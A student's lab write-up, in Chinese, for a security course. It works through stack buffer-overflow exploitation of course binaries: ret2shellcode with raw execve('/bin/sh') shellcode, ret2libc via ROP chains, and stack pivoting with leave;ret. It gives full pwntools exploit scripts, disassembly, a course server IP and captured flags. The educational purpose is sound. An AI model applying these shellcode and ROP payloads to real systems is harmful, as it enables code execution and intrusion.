






# lab01-缓冲区溢出

## 栈上缓冲区溢出

### Task 1

#### 请阅读 sbof1.c 和 example.py，关注脚本中：

- 学会使用 pwntools 中的 ELF，其可以方便的辅助得到代码下符号的地址、字符串地址、GOT 表等信息
- 学会根据读汇编代码理解如何计算缓冲区长度以及如何覆盖返回地址的

1. 使用 pwntools 中的 ELF:

```python:cs144/SSecAnyaZJU/lab-01/sbof/example.py
binary = ELF("./sbof1") # 分析目标程序
target_code_addr = binary.symbols["target_code"]
```

使用 ELF 类来分析目标程序,并通过 `binary.symbols["target_code"]` 获取 `target_code` 函数的地址。

2. 通过汇编代码理解缓冲区长度和返回地址覆盖:

- 栈帧大小为 0x50 (`sub rsp,0x50`)
- 缓冲区从 [rbp - 0x50] 开始,到 [rbp - 0x10] 结束
- len 变量位于 [rbp - 0x4]
- 需要额外 0x18 字节来覆盖返回地址

根据这些信息,payload 的构造如下:

```python:cs144/SSecAnyaZJU/lab-01/sbof/example.py
payload = b""
payload += b"A" * 0x40  # 1. 填充原始缓冲区
payload += b"B" * 0x10  # 2. 填充剩余空间
payload += b"C" * 0x8   # 3. 填充帧指针
payload += p64(target_code_addr)    # 4. 填充返回地址
payload = payload + b"D" * (128 - len(payload)) # 5. 填充剩余空间
```

#### 实践：

请阅读 sbof2.c，并在理解 example.py 的基础上编写攻击代码，实现 ret2shellcode 攻击的本地测试和远程测试，该服务暴露在：

IP: `8.154.20.109`, PORT: `10101`

请截图证明远程成功拿 shell，并将攻击代码以附件形式提交 (下图为获取到 flag 的截图示例)

`llvm-objdump -d sbof2` 的输出与分析：

```arm-asm 
0000000000401205 <main>:
  401205: f3 0f 1e fa                  	endbr64
  401209: 55                           	pushq	%rbp
  40120a: 48 89 e5                     	movq	%rsp, %rbp
  40120d: 48 81 ec 10 01 00 00         	subq	$0x110, %rsp            # imm = 0x110
  401214: 89 bd fc fe ff ff            	movl	%edi, -0x104(%rbp)
  40121a: 48 89 b5 f0 fe ff ff         	movq	%rsi, -0x110(%rbp)
  401221: b8 00 00 00 00               	movl	$0x0, %eax
  401226: e8 6b ff ff ff               	callq	0x401196 <prepare>
  40122b: 48 8d 85 00 ff ff ff         	leaq	-0x100(%rbp), %rax
  401232: 48 89 c6                     	movq	%rax, %rsi
  401235: bf 04 20 40 00               	movl	$0x402004, %edi         # imm = 0x402004
  40123a: b8 00 00 00 00               	movl	$0x0, %eax
  40123f: e8 2c fe ff ff               	callq	0x401070 <.plt.sec>
  401244: 48 8d 85 00 ff ff ff         	leaq	-0x100(%rbp), %rax
  40124b: 48 89 c7                     	movq	%rax, %rdi
  40124e: b8 00 00 00 00               	movl	$0x0, %eax
  401253: e8 38 fe ff ff               	callq	0x401090 <.plt.sec+0x20>
  401258: b8 00 00 00 00               	movl	$0x0, %eax
  40125d: c9                           	leave
  40125e: c3                           	retq
```

- 栈帧大小为 0x110 (`subq $0x110, %rsp`)
- 缓冲区从 [rbp - 0x100] 开始
- 覆盖返回地址为缓冲区的起始地址


payload 的构造如下:

- 首先放入 shellcode
- 填充剩余的缓冲区空间，大小为 `0x100 + 8 - len(shellcode)`
- 覆盖返回地址为缓冲区的起始地址

```python
from pwn import *

context.log_level = 'DEBUG'  # 设置调试日志级别

# 定义shellcode，这里使用一个简单的执行 /bin/sh 的shellcode
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

p = process("./sbof2")  # 加载目标程序
# p = remote("8.154.20.109", 10100)

# 接收程序输出的缓冲区地址
p.recvuntil(b"gift address: ")
buffer_addr = int(p.recvline().strip(), 16)

print(f"Buffer address: {hex(buffer_addr)}")

# 构造payload
payload = shellcode  # 首先放入shellcode
payload += b"A" * (0x100 + 8 - len(shellcode))  # 填充剩余的缓冲区空间
payload += p64(buffer_addr)  # 覆盖返回地址为缓冲区的起始地址

# 发送payload
p.sendline(payload)

# 获取shell
p.interactive()
```



尝试连接远程，发现需要输入学生 ID，修改代码，使用 `p.sendline(b"3220103784")` 。



得到 flag：`ssec2024{m4G1c_5taCk_bUFf3r_0v3rf1ow|28a3ceb6}`



## ROP: Return-Oriented-Programming

> 请阅读 rop1.c 和 example.py，关注脚本中：
- rop1.c 的攻击和 rop2.c 的攻击有何区别
- 学会使用 pwntools 的 rop API，让 payload 的构造事半功倍
- 注：也可以使用 ROPGadget 等工具，更加定制化的选择 gadgets

```python:Documents/SSecAnyaZJU/lab-01/rop/example.py
rop(rdi = 0x7373656332303234)   # 设置 rdi 寄存器的值
rop.raw(target_code_addr)       # 添加 target_code 函数的地址
payload += rop.chain()
payload = payload + b"B" * (128 - len(payload)) # 填充
```


1. `rop(rdi = 0x7373656332303234)`:
   - 这行代码使用 pwntools 的 ROP API 来设置 rdi 寄存器的值。
   - 在 x86-64 架构中,rdi 寄存器通常用于存放函数的第一个参数。
   - pwntools 会自动寻找合适的 gadget 来将这个值放入 rdi 寄存器。

2. `rop.raw(target_code_addr)`:
   - 这行代码将 target_code 函数的地址直接添加到 ROP 链中。
   - 这意味着在设置 rdi 寄存器后,程序将跳转到 target_code 函数。

3. `payload += rop.chain()`:
   - 这行代码生成完整的 ROP 链,并将其添加到 payload 中。
   - rop.chain() 会返回一个字节串,包含所有必要的地址和 gadgets。

4. `payload = payload + b"B" * (128 - len(payload))`:
   - 这行代码进行填充,确保 payload 的总长度为 128 字节。
   - 使用 "B" 字符填充剩余空间。
   - 这是为了确保 payload 的长度符合程序的输入要求。


### Task 2

实践 - 1
请阅读 rop2.c，并在理解 example.py 的基础上编写攻击代码，实现 ret2libc 攻击的本地测试和远程测试，该服务暴露在：

IP: 8.154.20.109, PORT: 10101

1. 使用 pwntools 的 ROP 类来构造 ROP 链，但出现段错误

```python
payload = b""
payload += b"A" * (0x50 + 8)

rop.raw(target_code_addr)       # gadgets that will return to target function
payload += rop.chain()          # generate full rop chain
payload = payload + b"B" * (128 - len(payload)) # padding
```

2. 解决段错误,将 ret 指令的地址添加到 ROP 链中，用于调整栈对齐，成功执行到 `/bin/ls`
   > 分析段错误可能出现的原因：a. 栈对齐问题；b. target_code 函数的参数设置；c. 程序的保护机制

添加 ret 指令的地址，用于调整栈对齐。

```python
ret_addr = rop.find_gadget(['ret'])[0]
rop.raw(ret_addr)
```

```bash
[*] Switching to interactive mode
[DEBUG] Received 0x49 bytes:
    b'example.py  Makefile  my_exp2.py  rop1\trop1.c\trop2  rop2.c  rop3  rop3.c\n'
example.py  Makefile  my_exp2.py  rop1  rop1.c  rop2  rop2.c  rop3  rop3.c
```

3. 在这个漏洞利用中，目标不是执行 target_code 函数。目标 ROP：调用 system("/bin/sh")。

- 首先使用 `pop rdi gadget` 将 `binsh_code_addr`（指向 "/bin/sh" 字符串的地址）放入 rdi 寄存器。
- 然后调用 system 函数，传入 rdi 中的参数。

```diff
- target_code_addr = binary.symbols["target_code"]
+binsh_code_addr = binary.symbols["gstr"]
+system_addr = binary.symbols["system"]

payload = b""
payload += b"A" * (0x50 + 8)

ret_addr = rop.find_gadget(['ret'])[0]
+ pop_rdi = rop.find_gadget(['pop rdi'])[0]

# 构造ROP链
+ rop.raw(pop_rdi)
+ rop.raw(binsh_code_addr)
rop.raw(ret_addr)
- rop.row(target_code_addr)
+ rop.raw(system_addr)
```

远端测试，得到 flag：`ssec2023{r0p_bAs1c_biNarY|edf1d3c1}`



### Task 3

实践 - 2
请阅读 rop3.c，并在理解上述攻击的基础上编写攻击代码，完成栈迁移操作，并最终实现弹 shell 攻击的本地测试和远程测试，该服务暴露在：

IP: 8.154.20.109, PORT: 10102

1. 分析 rop3.c 的代码，用 gadget 获取必要信息

   漏洞点:
   - `func()` 中的 `read` 操作存在栈溢出漏洞，可以溢出16字节
   - `main` 函数中向 `gbuffer` 写入数据的操作给了我们一个可控的内存区域

   利用栈迁移技术:
   1. 由于 `func()` 中的溢出有限，我们可以使用栈迁移将栈指针指向 `gbuffer`
   2. 在 `gbuffer` 中构造我们的 ROP 链

   攻击步骤:
   1. 第一次输入 (向 `gbuffer` 写入):
      - 写入 "/bin/sh\0" 字符串
      - 构造 ROP 链: `pop rdi` gadget + "/bin/sh"字符串地址 + `system`函数地址
   2. 第二次输入 (触发 `func()` 中的溢出):
      - 填充到返回地址
      - 覆盖返回地址为 `leave; ret` gadget 的地址
      - 在这之前放置 `gbuffer` 的地址作为新的栈基址
   3. 当 `func()` 返回时:
      - `leave` 指令会使栈指针指向 `gbuffer`
      - `ret` 指令会跳转到我们在 `gbuffer` 中构造的 ROP 链


```python
# 获取 system 地址
p.recvuntil(b"gift system address: ")
system_addr = int(p.recvline().strip(), 16)
log.info(f"System address: {hex(system_addr)}")

# 获取必要的 gadgets
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
leave_ret = rop.find_gadget(['leave', 'ret'])[0]
ret_addr = rop.find_gadget(['ret'])[0]
gbuffer_addr = binary.symbols['gbuffer']
```

2. 构造 payload

```python
# 构造gbuffer中的payload
payload1 = b"/bin/sh\0" # shellcode
payload1 += p64(pop_rdi) # pop rdi; ret
payload1 += p64(gbuffer_addr) # "/bin/sh"
payload1 += p64(ret_addr) # ret
payload1 += p64(system_addr) # system

# 构造栈溢出的payload
payload2 = b"A" * 0x40  # 填充到 rbp
payload2 += p64(gbuffer_addr)  # 新的 rbp
payload2 += p64(LEAVE_RET)  # 返回地址设为 leave; ret gadget
```

本地测试：



远端测试，得到 flag：`ssec2023{r0p_1RiVi4L_p1v0t|d9933483}`



